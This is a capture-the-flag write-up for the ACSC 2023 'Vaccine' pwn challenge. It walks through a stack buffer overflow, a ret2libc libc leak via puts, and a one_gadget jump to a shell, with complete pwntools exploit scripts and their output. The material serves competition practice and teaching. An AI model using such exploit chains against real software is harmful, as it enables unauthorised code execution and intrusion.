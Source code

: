 # ACSC 2023
## Vaccine

## Information
**Category** | **Points** | **Writeup Author**
--- | --- | ---
PWN | 50 | Onirique

**Description:** 
Give me the correct vaccine to view my secret
nc vaccine.chal.ctf.acsc.asia 1337
nc vaccine-2.chal.ctf.acsc.asia 1337 (Backup)

## Solution
We first need to build a docker from the Dockerfile to get the right version of libc for our binary. We can simply achieve this by 2 commands:
```sh
$ sudo docker build -f Dockerfile -t ctfchall .
$ sudo docker run -it --rm ctfchall
```
Simply copy the binary file to the docker to see which libc version is used and then copy the libc back to the original directory.

Now let’s analyse the program. Notice that there’s only the main() function.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rbx
  char v5[112]; // [rsp+10h] [rbp-170h] BYREF
  char s2[112]; // [rsp+80h] [rbp-100h] BYREF
  char s[104]; // [rsp+F0h] [rbp-90h] BYREF
  FILE *v8; // [rsp+158h] [rbp-28h]
  FILE *stream; // [rsp+160h] [rbp-20h]
  int i; // [rsp+16Ch] [rbp-14h]

  stream = fopen("RNA.txt", "r");
  fgets(s, 100, stream);
  printf("Give me vaccine: ");
  fflush(_bss_start);
  __isoc99_scanf("%s", s2);
  for ( i = 0; ; ++i )
  {
    v3 = i;
    if ( v3 >= strlen(s2) )
      break;
    if ( s2[i] != 65 && s2[i] != 67 && s2[i] != 71 && s2[i] != 84 )
    {
      puts("Only DNA codes allowed!");
      exit(0);
    }
  }
  if ( strcmp(s, s2) )
  {
    puts("Oops.. Try again later");
    exit(0);
  }
  puts("Congrats! You give the correct vaccine!");
  v8 = fopen("secret.txt", "r");
  fgets(v5, 100, v8);
  printf("Here is your reward: %s\n", v5);
  return 0;
}
```
It’s a simple buffer overflow exploit. To bypass the strcmp() we only need to input a bunch of NULL char (0x00). The real problem is that we know that the ‘secret.txt’ file doesn’t contain the flag.
We can either find a way to rewrite the ‘secret.txt’ to ‘flag.txt’, or simply just take control of the shell by ret2libc technique since we already have the right libc version.
Using some simple maneuvers, we know that the offset from our buffer to the return address of main is 264 bytes. Now we just need a payload to leak a libc address. For this I chose the puts() function.

At first our payload will look like this:
```py
from pwn import *

exe = ELF('./vaccine')
libc = ELF('./libc-2.31.so')

#io = remote('vaccine.chal.ctf.acsc.asia', 1337)
io = exe.process()
#gdb.attach(io, api=True)
#context.log_level = 'debug'

# Gadgets:
puts = 0x0000000000084420 # Offset that we took from the libc
pop_rdi = 0x0000000000401443
ret = 0x000000000040101a
main = 0x0000000000401236

# Leaking libc
io.recvuntil(b'vaccine:')
payload = b'\0'*264
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(main)
io.sendline(payload)
print(io.recvuntil(b' reward: '))
print(io.recvuntil(b'\n'))
leak_puts = int.from_bytes(io.recvline(keepends=False), byteorder='little')
print(hex(leak_puts))
libc.address = leak_puts - puts
print(f'Libc base: {hex(libc.address)}')
```
We need to return back to the main() function so that we can once again exploit the buffer overflow.
Now that we know the libc base address. We can now easily take control of the shell. The one_gadget tool provide us a very useful offset:
```sh
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
[rdx] == NULL || rdx == NULL
```
By testing all 3 we know that only 0xe3b01 works. Now we can place all the pieces together and our exploit script will look like this:
```py
from pwn import *

exe = ELF('./vaccine')
libc = ELF('./libc-2.31.so')

#io = remote('vaccine.chal.ctf.acsc.asia', 1337)
io = exe.process()
#gdb.attach(io, api=True)
#context.log_level = 'debug'

# Gadgets:
puts = 0x0000000000084420 # Offset that we took from the libc
pop_rdi = 0x0000000000401443
ret = 0x000000000040101a
main = 0x0000000000401236

# Leaking libc
io.recvuntil(b'vaccine:')
payload = b'\0'*264
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(main)
io.sendline(payload)
print(io.recvuntil(b' reward: '))
print(io.recvuntil(b'\n'))
leak_puts = int.from_bytes(io.recvline(keepends=False), byteorder='little')
print(hex(leak_puts))
libc.address = leak_puts - puts
print(f'Libc base: {hex(libc.address)}')

one_gadget = 0xe3b01
payload = b'\0'*264
payload += p64(libc.address + one_gadget)
io.sendline(payload)
time.sleep(0.5)
io.sendline(b'cat flag.txt')
io.interactive()
```
Run the script and we will get:
```sh
[*] '/mnt/d/ctf/pwn/acsc/vaccine/bin/vaccine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/mnt/d/ctf/pwn/acsc/vaccine/bin/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vaccine.chal.ctf.acsc.asia on port 1337: Done
b' Congrats! You give the correct vaccine!\nHere is your reward: '
b'your flag is in another castle\n'
0x7f62767bf420
Libc base: 0x7f627673b000
[*] Switching to interactive mode
Give me vaccine: ACSC{RoP_3@zy_Pe4$y}
```

> Flag is: ACSC{RoP_3@zy_Pe4$y}
